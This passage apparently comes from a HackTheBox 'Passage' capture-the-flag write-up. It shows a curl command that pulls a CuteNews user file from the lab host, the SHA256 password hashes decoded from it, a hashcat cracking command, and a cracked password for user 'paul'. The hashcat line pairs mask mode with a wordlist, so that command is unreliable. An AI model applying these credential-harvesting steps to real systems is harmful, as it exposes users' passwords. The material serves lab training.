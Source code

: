 We found 5 possible `SHA256` hashes.

```bash
$ curl http://10.10.10.206/CuteNews/cdata/users/lines | grep YT | base64 -d | grep -o -E -e "[0-9a-f]{64}"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3840  100  3840    0     0   6748      0 --:--:-- --:--:-- --:--:--  6760
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
```
Using `hashcat`, we were able to decrypt one SHA256 hash using `rockyou.txt` wordlist. The password hash belongs to user Paul.

```bash
$ cat hashes 
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc

$ hashcat -m 1400 -a 3 hashes /usr/share/wordlists/rockyou.txt
```

![sha256](/assets/posts/ctf/hackthebox/machines/passage/img/sha256.png)
_Decrypted Paul's SHA256 password hash_

Decypted SHA256 hash:

| User  | Password  |
|:-----:|:---------:|
| paul  | atlanta1 |
